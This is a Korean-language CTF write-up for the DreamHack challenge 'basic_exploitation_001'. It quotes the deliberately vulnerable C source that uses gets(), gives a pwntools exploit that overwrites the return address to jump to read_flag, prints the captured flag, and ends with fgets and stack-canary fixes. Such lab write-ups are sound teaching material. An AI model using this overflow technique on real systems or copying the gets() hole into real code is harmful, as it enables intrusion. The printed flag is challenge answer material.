




# B4 · basic_exploitation_001

### 1. 문제 확인

`pwnable` 분류의 B4 문제로, 제공된 `basic_exploitation_001` 실행 파일과 소스(`basic_exploitation_001.c`)를 분석해 셸 없이 서버의 플래그를 읽어 내는 문제입니다.

<p align="center">
  
</p>

### 2. 코드 분석 — gets로 버퍼에 입력을 받는 흐름

제공된 소스는 다음과 같습니다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    gets(buf);

    return 0;
}
```

- `main`은 `0x80`(128)바이트짜리 지역 버퍼 `buf`를 잡고 `gets(buf)`로 입력을 받습니다.
- `read_flag`는 `system("cat /flag")`로 플래그를 출력하는 함수지만, **코드 어디에서도 호출되지 않습니다.**
- 즉 `main`의 흐름을 `read_flag`로 돌릴 수만 있으면 플래그가 출력됩니다.

### 3. 취약점 — gets는 개행을 만나기 전까지 길이 제한 없이 받는다

`gets(buf)`가 취약점입니다. `gets`는 입력에서 **개행 문자(`\n`)를 만날 때까지** 버퍼 크기와 상관없이 계속 받아서 저장합니다. `buf`는 0x80바이트인데, 그보다 긴 입력을 주면 버퍼 뒤의 스택 데이터(저장된 EBP, 반환 주소)까지 덮어쓸 수 있습니다.

따라서 버퍼를 넘치게 채운 뒤 반환 주소 자리에 `read_flag` 주소를 써 두면, `main`이 반환할 때 `read_flag`로 이동합니다.

### 4. 주소 확인 — 심볼이 남아 있어 함수 주소를 바로 얻는다

먼저 바이너리에 심볼 정보가 남아 있는지 확인합니다. `file ./basic_exploitation_001` 결과에 `not stripped`가 있으면 심볼이 살아 있는 것입니다. GDB에서 `disassemble main`으로 스택 배치를, `p read_flag`로 함수 주소를 확인합니다.

<p align="center">
  
</p>

- `disassemble main`에서 `lea eax, [ebp-0x80]` → `push eax` → `call gets@plt`가 보입니다. 즉 `buf`의 시작 주소는 `ebp-0x80`이고, 그 주소가 `gets`의 인자로 넘어갑니다.
- `p read_flag` 결과는 `$1 = {<text variable, no debug info>} 0x80485b9 <read_flag>`입니다. 이름 `read_flag`를 인식하고 주소 `0x80485b9`를 돌려줬으므로 **심볼 테이블이 남아 있는 것**입니다. `no debug info`는 소스 라인 같은 디버그 정보만 없다는 뜻이지 심볼이 없다는 뜻이 아닙니다. 익스에 필요한 "이름 → 주소" 매핑은 이 심볼 테이블만 있으면 충분합니다.
- 이 바이너리는 PIE가 꺼져 있어 함수 주소가 실행 때마다 바뀌지 않으므로, 확인한 `0x80485b9`를 그대로 사용합니다.

심볼이 남아 있으므로 pwntools에서도 주소를 직접 꺼낼 수 있습니다.

```python
e = ELF("./basic_exploitation_001")
e.sym.read_flag   # == 0x80485b9
```

### 5. 스택 배치와 페이로드 — 버퍼 시작부터 반환 주소까지

`buf`가 `ebp-0x80`에 있으므로, 버퍼 시작부터 반환 주소까지의 거리는 아래와 같습니다. 32비트 바이너리라 저장된 EBP와 반환 주소는 각각 4바이트입니다.

```text
buf 시작 주소: ebp - 0x80
오프셋 0x00~0x7f  buf[0x80]        128바이트
오프셋 0x80~0x83  저장된 EBP(SFP)   4바이트
오프셋 0x84~0x87  반환 주소(RET)    4바이트
```

따라서 **0x80바이트(버퍼) + 4바이트(SFP)** 를 더미로 채운 뒤, 그다음 4바이트에 `read_flag` 주소를 쓰면 반환 주소가 덮입니다.

<p align="center">
  
</p>

```python
from pwn import *

p = remote("host3.dreamhack.games", 20847)   # 현재 문제 화면의 포트를 넣는다

payload  = b"A" * 0x80          # buf(0x80) 채우기
payload += b"BBBB"              # 저장된 EBP(SFP) 4바이트 덮기
payload += p32(0x80485b9)       # 반환 주소를 read_flag로 덮기

p.sendline(payload)
print(p.recvall(timeout=3).decode())
```

페이로드의 각 부분은 스택의 다음 위치를 덮습니다.

- `b"A" * 0x80`: 128바이트 버퍼를 채워 저장된 EBP 직전까지 도달합니다.
- `b"BBBB"`: 저장된 EBP(SFP) 4바이트를 채우는 더미입니다. 값은 무엇이든 상관없고, 반환 주소에 도달하기 위해 지나가는 공간입니다.
- `p32(0x80485b9)`: `read_flag` 주소를 32비트 리틀엔디안 4바이트로 바꾸어 반환 주소 자리에 씁니다.

`main`이 `leave; ret`로 반환할 때, 저장된 반환 주소 대신 `read_flag`로 이동합니다. `read_flag`는 `system("cat /flag")`로 서버의 플래그를 출력합니다. DreamHack 서비스 포트는 인스턴스에 따라 바뀌므로 현재 문제 화면의 포트를 사용합니다. 로컬에는 `/flag` 파일이 없어 플래그가 나오지 않으므로, 반드시 원격(`remote`)에 접속해 실행합니다.

### 6. 실행 결과 — 플래그 확인

페이로드를 보내면 `read_flag`가 플래그를 출력하고, `recvall`이 그 출력을 받아 옵니다.

<p align="center">
  
</p>

`p.interactive()`로 받아도 동일하게 플래그가 출력됩니다.

<p align="center">
  
</p>

```text
DH{01ec06f5e1466e44f86a79444a7cd116}
```

위 값을 DreamHack 문제 페이지의 FLAG 입력란에 붙여 넣어 제출합니다.

### 7. 취약점 예방법

근본 원인은 길이 제한이 없는 `gets`입니다. `gets`는 표준에서 제거된 함수이며, 버퍼 크기를 받는 `fgets`로 대체해야 합니다.

```c
if (fgets(buf, sizeof(buf), stdin) == NULL) {
    return 1;
}
```

`fgets`는 버퍼 크기(`sizeof(buf)`)를 넘겨 받으므로 그 이상은 읽지 않아 오버플로가 발생하지 않습니다. 추가로 컴파일 시 스택 보호 기능(스택 카나리)을 켜면 반환 주소가 덮였는지 검사할 수 있고, `read_flag`처럼 호출되지 않는 위험 함수는 바이너리에서 제거하는 것이 안전합니다.
